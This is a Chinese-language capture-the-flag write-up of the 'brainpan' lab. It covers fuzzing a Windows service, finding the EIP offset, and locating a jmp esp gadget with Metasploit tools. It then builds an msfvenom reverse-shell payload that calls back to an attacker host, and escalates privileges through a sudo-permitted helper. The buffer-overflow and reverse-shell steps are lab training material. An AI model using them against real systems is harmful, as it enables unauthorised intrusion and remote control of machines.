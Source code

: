 # brainpan

## brainpan渗透测试

[参考链接1](https://blog.csdn.net/qq_34801745/article/details/103949489)

[参考链接2](https://www.cnblogs.com/darklee/p/14466851.html)

[参考链接3](https://bbs.pediy.com/thread-255058.htm#msg_header_h3_5)

- 首先扫描靶机位置以及开放的端口

![image-20210706141719309](http://cdn.mxrblog.cn/image-20210706141719309.png)

- 可以看到靶机开启了9999和10000端口，其中10000端口开启了http服务，访问靶机的访问靶机的10000号端口服务

![image-20210706141902068](http://cdn.mxrblog.cn/image-20210706141902068.png)

- 没有什么有价值的线索， 扫描一下http服务的目录（扫描目录这个过程出现了一点小波折，总之把靶机重新启动一下就好了）

![image-20210706142317846](http://cdn.mxrblog.cn/image-20210706142317846.png)

- 返现bin目录下有东西，我们访问一下，发现可执行文件

![image-20210706143249570](http://cdn.mxrblog.cn/image-20210706143249570.png)

- 下载brainpan.exe到攻击机器

![image-20210706143436955](http://cdn.mxrblog.cn/image-20210706143436955.png)

- 是windows可执行文件，移至windows环境中，使用Immunity Debugger打开，然后运行

![image-20210707035547856](http://cdn.mxrblog.cn/image-20210707035547856.png)

- 在win10上开启的是9999端口，使用fuzz脚本进行模糊测试
- 在网上下载fuzz脚本进行下载,下载地址:

```
git clone https://github.com/jessekurrus/brainpan
```

- 通过看代码，可以知道brainfuzzer.py的内容是发送初始值为100的A，每次增加100个，直至程序崩溃

![image-20210707041122867](http://cdn.mxrblog.cn/image-20210707041122867.png)



- Executing brainfuzzer.py scrtpt, It wa found that a crash occurred at 700 A

![image-20210707035932038](http://cdn.mxrblog.cn/image-20210707035932038.png)

- 用msf生成1000个有规律的字符序列

```
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 1000
```

![image-20210707053219397](http://cdn.mxrblog.cn/image-20210707053219397.png)

- 修改brainpan1.py, 将里面的序列替换成我们的

![image-20210707041454618](http://cdn.mxrblog.cn/image-20210707041454618.png)

- 重启Immunity Debugger上的brainpan.exe (Ctrl+F2), F9执行， 再在攻击机器上运行brainpan1.py

![image-20210707041835761](http://cdn.mxrblog.cn/image-20210707041835761.png)



- 可以发现此时的EIP地址是35724134

![image-20210707042149055](http://cdn.mxrblog.cn/image-20210707042149055.png)

- 使用mfs计算EIP的位置

```
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q 35724134
```

- 为524

![image-20210707042342854](http://cdn.mxrblog.cn/image-20210707042342854.png)

- 修改brainpan2.py代码

![image-20210707053912035](http://cdn.mxrblog.cn/image-20210707053912035.png)

- 在攻击机器上执行brainpan2.py, 我们能发现EIP的地址已经是42424242（BBBB的16进制）， ESP的起始地址是005FF910

![image-20210707053948699](http://cdn.mxrblog.cn/image-20210707053948699.png)

- 寻找跳板 jmp esp ，在Immunity Debugger中 Ctrl+F4搜索 jmp esp, 得到地址为311712F3

![image-20210707074011842](http://cdn.mxrblog.cn/image-20210707074011842.png)

- 使用msfvenom创建我的反向shell有效shellcode
  - -p表示加载模块，-f python表示格式化为python代码，-b为坏字符

```
msfvenom -p linux/x86/shell_reverse_tcp -b "\x00\x0a\x0d" LHOST=192.168.1.8 LPORT=666 -f python
```

![image-20210707080646846](http://cdn.mxrblog.cn/image-20210707080646846.png)

- 修改brainpan4.py

![image-20210707080622710](http://cdn.mxrblog.cn/image-20210707080622710.png)

- 监听本地666号端口

![image-20210707080807444](http://cdn.mxrblog.cn/image-20210707080807444.png)

- 执行brainpan4.py

```
python brainpan4.py 192.168.1.6 9999   //注意，这次的地址不是win10的了，而是靶机的地址
```

![image-20210707083510729](http://cdn.mxrblog.cn/image-20210707083510729.png)

- 设置交互式shell

```
python -c 'import pty; pty.spawn("/bin/bash")'
```

![image-20210707085429547](http://cdn.mxrblog.cn/image-20210707085429547.png)

- 开始提权，看看有什么是现用户能使用的超级用户权力，使用sudo -l

![image-20210707083641954](http://cdn.mxrblog.cn/image-20210707083641954.png)

- 执行一下，发现命令还需要有三个参数，我们选择第三个

![image-20210707084110484](http://cdn.mxrblog.cn/image-20210707084110484.png)

```
sudo /home/anansi/bin/anansi_util manual cat
```

![image-20210707085613225](http://cdn.mxrblog.cn/image-20210707085613225.png)

![image-20210707085713346](http://cdn.mxrblog.cn/image-20210707085713346.png)

